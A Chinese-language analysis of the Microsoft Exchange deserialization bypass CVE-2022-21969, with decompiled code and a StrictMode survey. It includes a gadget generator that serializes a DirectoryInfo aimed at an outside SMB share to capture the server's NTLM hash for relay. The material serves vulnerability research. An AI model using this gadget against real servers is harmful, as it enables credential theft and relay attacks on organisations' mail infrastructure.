


# CVE-2022–21969 反序列化绕过

# 漏洞分析
这个漏洞算是`CVE-2021-42321` 的补丁绕过，主要使用了`System.Windows.Forms.TableLayoutSettings` 类来进行反序列化。问题还是出现在`ExchangeBinaryFormatterFactory.CreateBinaryFormatter` 创建自定义反序列化对象的时候。

代码如下：

```csharp
internal TableLayoutSettings(SerializationInfo serializationInfo, StreamingContext context) : this()
{
	TypeConverter converter = TypeDescriptor.GetConverter(this);
	string @string = serializationInfo.GetString("SerializedString");
	if (!string.IsNullOrEmpty(@string) && converter != null)
	{
		TableLayoutSettings tableLayoutSettings = converter.ConvertFromInvariantString(@string) as TableLayoutSettings;
		if (tableLayoutSettings != null)
		{
			this.ApplySettings(tableLayoutSettings);
		}
	}
}
```
在反序列化的时候，会获取序列化信息中`SerializedString`字段中的信息，并传入`ConvertFromInvariantString` 函数。

在`ConvertFromInvariantString`函数内部，调用了`ConvertFromString->ConvertFrom`

```csharp
public object ConvertFromInvariantString(string text)
{
    return this.ConvertFromString(null, CultureInfo.InvariantCulture, text);
		}
...
...
public object ConvertFromString(ITypeDescriptorContext context, CultureInfo culture, string text)
		{
    return this.ConvertFrom(context, culture, text);
		}
```
实际上`ConvertFrom` 调用的是派生类`System.Windows.Forms.Layout.TableLayoutSettingsTypeConverter` 中的`ConvertForm`函数。

```csharp
public override object ConvertFrom(ITypeDescriptorContext context, CultureInfo culture, object value)
{
	if (value is string)
	{
		XmlDocument xmlDocument = new XmlDocument();
		xmlDocument.LoadXml(value as string);
		TableLayoutSettings tableLayoutSettings = new TableLayoutSettings();
		this.ParseControls(tableLayoutSettings, xmlDocument.GetElementsByTagName("Control"));
		this.ParseStyles(tableLayoutSettings, xmlDocument.GetElementsByTagName("Columns"), true);
		this.ParseStyles(tableLayoutSettings, xmlDocument.GetElementsByTagName("Rows"), false);
		return tableLayoutSettings;
	}
	return base.ConvertFrom(context, culture, value);
}
```
所以在反序列化`TableLayoutSettings` 类的时候，最终会把序列化对象中`SerializedString` 的值传入`System.Windows.Forms.Layout.TableLayoutSettingsTypeConverter.ConvertForm` 函数中，并使用`XML`进行解析，这里就有可能造成`XXE` 漏洞。


现在我们来看看反序列化函数`DeserializeObject` ，该函数调用了`ExchangeBinaryFormatterFactory.CreateBinaryFormatter` 

```csharp
private object DeserializeObject(byte[] data, bool customized)
{
	if (data != null)
	{
		using (MemoryStream memoryStream = new MemoryStream(data))
		{
			bool strictModeStatus = Serialization.GetStrictModeStatus(DeserializeLocation.ExchangeCertificateRpc);
			return ExchangeBinaryFormatterFactory.CreateBinaryFormatter(DeserializeLocation.ExchangeCertificateRpc, strictModeStatus, ExchangeCertificateRpc.allowedTypes, ExchangeCertificateRpc.allowedGenerics).Deserialize(memoryStream);
		}
	}
	return null;
}
```
从之前的`CVE-2021-42321` 中可以得知，`StrictMode`默认是为`False` 的。不过我们这里还是需要测试一下，因为这里使用了`GetStrictModeStatus` 函数来设置`StrictMode` ，写个小程序放到`Exchange` 的目录下运行：

```csharp
using System;
using Microsoft.Exchange.Data.Serialization;
using Microsoft.Exchange.Diagnostics;


namespace CVE_2022_21969
{
    internal class Program
    {
        static void Main(string[] args)
        {
            bool strictModeStatus = Serialization.GetStrictModeStatus(DeserializeLocation.ExchangeCertificateRpc);
            Console.WriteLine("strictModeStatus: " + strictModeStatus);

            Array values = Enum.GetValues(typeof(DeserializeLocation));
            foreach(DeserializeLocation value in values)
            {
                Console.WriteLine(value + " strictMode = " + Serialization.GetStrictModeStatus(value));
            }
        }
    }
}
```
运行结果

```csharp
strictModeStatus: False
Unclassified strictMode = False
Test strictMode = False
Hygiene_CacheSerializer strictMode = False
TopologyDiscovery strictMode = False
UmCore_PipelineContext strictMode = False
UmCommon_Serialization strictMode = False
SharepointNotification strictMode = False
SwordFish_AirSync strictMode = False
SwordFish_UserGroup strictMode = False
SwordFish_Extensions strictMode = False
ModelItemCacheObject strictMode = False
TopNConfiguration strictMode = False
TopNData strictMode = False
GroupProvider strictMode = False
SubscribeListHelper strictMode = False
NormalizationCache strictMode = False
ClientExtensionCollectionFormatter strictMode = True
ExchangeSettingsProvider strictMode = False
NetworkPackage strictMode = True
TasksRpcServer strictMode = False
Customer strictMode = False
MultiMailboxSearch strictMode = False
PropertyBag strictMode = False
RpcCommon strictMode = True
TemplateTenantConfiguration strictMode = True
DagNetworkClientRPC strictMode = False
UnifiedPolicySyncNotificationDataProvider strictMode = False
TenantInfoProvider strictMode = True
ClientInfoSession strictMode = False
MailboxLogStatus strictMode = False
PrimingCacheFileUtil strictMode = False
Hygiene_Program strictMode = False
BloomFilterFileSourceReader strictMode = True
SerializationHelper strictMode = False
SafeSerialization strictMode = False
SafeLocalizedStringSerializer strictMode = True
WinFormsHelper strictMode = False
Cluster_Serialize strictMode = False
Topology strictMode = False
ConfigurableObject strictMode = False
SerializationTypeConverter strictMode = True
CalendarNotification strictMode = False
TextMessagingAccount strictMode = False
CosmosErrorList strictMode = False
AbstractDataProvider strictMode = False
UdpReputationServerTransport strictMode = False
AccessControlEntry strictMode = False
Um_Serialization strictMode = False
MailboxDataStore strictMode = False
GetDatabaseCopyStatus strictMode = False
Cluster_SerializationUtil strictMode = True
TestNetworkParams strictMode = False
HaRpcError strictMode = False
EwsStoreValueConverter strictMode = True
RetentionEventStoreObjectProvider strictMode = True
RpcServerWrapper strictMode = False
CacheFileCookieBinarySerializer strictMode = False
EventLogReader strictMode = False
ComplianceFormatter strictMode = False
CompliancePolicyPlatform strictMode = False
HttpBinarySerialize strictMode = False
SqlDataExternalSettings strictMode = False
CmdletParametersBase strictMode = False
CloneHelper strictMode = False
SerializationCore strictMode = False
TenantCache strictMode = False
JouralData strictMode = False
CacheFileCookieSerializer strictMode = False
PrimaryCacheFileUtil strictMode = False
SpamDataBlobTool strictMode = False
StreamUtility strictMode = False
IPStatDataBlob strictMode = False
CAPropertyConverters strictMode = False
SubscriptionCacheClient strictMode = False
ExchangeCertificateRpc strictMode = False
SenderExtData strictMode = False
AzureRedisCacheBase strictMode = False
AntMillLibCommon strictMode = False
SessionStatistics strictMode = False
AccessControlList strictMode = False
DataLayerSerializedHelper strictMode = False
ProcessManagerControlObject strictMode = False
EmailIndexer strictMode = False
AgentSubscription strictMode = False
QueueViewerSerialization strictMode = False
MetaIpListDataBlob strictMode = False
SerializeFormatter strictMode = False
DbParser strictMode = False
SqlTypeHelper strictMode = False
BinarySerialize strictMode = False
MultiValuedProperty strictMode = False
QueueClient strictMode = False
MessageResubmissionComponent strictMode = False
```
可以看到，只有11个值会把`StrictMode`设置为`True`。

所以我们主要分析`ExchangeBinaryFormatterFactory.CreateBinaryFormatter` 找到调用的输入点



可以看到是能够找到很多的，所以目前我们要找到一个能够触发反序列化输入的点，就能够造成`XXE`攻击。

但是对于`.Net` 大于`4.5.2`的版本，默认情况下`XmlLoad`是安全的，所以对于最新的`Exchange` 使用`XXE` 是无效的。不过我们可以使用`DirectoryInfo` 这个类，在内部向外发出`SMB` 请求，从而获得服务器机器账户的`NTLM` ，然后发起中继攻击。

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.Serialization.Formatters.Binary;
using System.IO;

namespace CVE_2022_21969_Gadget
{
    internal class Program
    {
        static void Main(string[] args)
        {
            DirectoryInfo info = new DirectoryInfo(@"\\192.168.31.212\~shares");
            FileStream fs = new FileStream("Binary.dat", FileMode.Create);

            BinaryFormatter formatter = new BinaryFormatter();
            formatter.Serialize(fs, info);

            fs.Close();

            BinaryFormatter formatter1 = new BinaryFormatter();
            MemoryStream ms = new MemoryStream();
            formatter1.Serialize(ms, info);
            byte[] serArry = ms.ToArray();
            Console.WriteLine(Convert.ToBase64String(serArry));
        }
    }
}

```


参考文章中使用的方式需要开启`Voice` 功能，我这里测试的找不到开启选项，估计还要搭建其他配置，所以就没有进行后续的测试了。

`voicemail` 触发漏洞的地方：

```csharp
else
{
	if (!(text4 == "ContactInfo"))
	{
		goto IL_41C;
	}
	Exception ex = null;
	try
	{
		try
		{
			using (MemoryStream memoryStream = new MemoryStream(Convert.FromBase64String(array[1])))
			{
				bool strictModeStatus = Serialization.GetStrictModeStatus(DeserializeLocation.UmCore_PipelineContext);
				contactInfo = (ContactInfo)ExchangeBinaryFormatterFactory.CreateBinaryFormatter(DeserializeLocation.UmCore_PipelineContext, strictModeStatus, PipelineContext.allowedTypes, PipelineContext.allowedGenerics).Deserialize(memoryStream);
			}
		}
		catch (ArgumentNullException ex)
		{
		}
```
这里测试的时候使用`CVE-2021-42321` 的触发点来进行测试，是能够成功获取到机器账户的NTLM




# 参考链接
[https://medium.com/@frycos/searching-for-deserialization-protection-bypasses-in-microsoft-exchange-cve-2022-21969-bfa38f63a62d](https://medium.com/@frycos/searching-for-deserialization-protection-bypasses-in-microsoft-exchange-cve-2022-21969-bfa38f63a62d)